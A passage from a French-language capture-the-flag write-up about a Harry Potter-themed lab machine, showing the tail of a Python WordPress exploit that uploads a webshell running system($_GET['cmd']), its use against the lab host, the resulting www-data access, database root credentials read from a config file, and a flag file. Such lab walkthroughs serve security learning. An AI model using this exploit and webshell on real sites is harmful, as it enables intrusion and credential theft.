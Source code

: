 ```python
        print(f"Error: Server replied with HTTP {response.status_code}")

if len(sys.argv) < 2:
    print(f"Usage: python {sys.argv[0]} http://target/path_to_wordpress/ [optional_php_shell_filename]")
    print("Default shell just call system($_GET['cmd'])")
    sys.exit()

attack(sys.argv[1], None if len(sys.argv) < 3 else sys.argv[2])
```

Sur le blog on remarque le nom d'hôte *wordpress.aragog.hogwarts* que j'ai ajouté à mon */etc/hosts* au cas où.  

L'exploit s'utilise de cette manière :   

```bash
$ python exploit.py http://wordpress.aragog.hogwarts/blog/
```

Par défaut il exploite la vulnérabilité pour uploader un bête webshell qui prend la commande à exécuter dans le paramètre *cmd*. Mais on peut rajouter comme second argument un nom de fichier à uploader à la place, ce qui est bien pratique pour rapatrier des outils supplémentaires :)  

Sans trop de surprise on a les droits de l'user web :  

```plain
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Le Wordpress est installé dans */usr/share/wordpress/* ce qui me semble moins banal mais l'explication est qu'il a été installé via un paquet de la distribution (*Debian Buster 10*).  

Ainsi on retrouve le fichier de configuration dans */etc/wordpress/config-default.php* avec les accès à la base de données :  

```php
define('DB_NAME', 'wordpress');
define('DB_USER', 'root');
define('DB_PASSWORD', 'mySecr3tPass');
define('DB_HOST', 'localhost');
```

Mon royaume pour un shell
-------------------------

Je relève deux utilisateurs sur le système :  

```plain
uid=1001(ginny) gid=1001(ginny) groups=1001(ginny)
uid=1000(hagrid98) gid=1000(hagrid98) groups=1000(hagrid98)
```

Le premier n'a aucun fichier d'intéressant sur le système. Le second a en revanche un horcrux (les flags du challenge) qui est world-readable :  

```plain
-rw-r--r-- 1 hagrid98 hagrid98   91 Apr  1  2021 horcrux1.txt
```
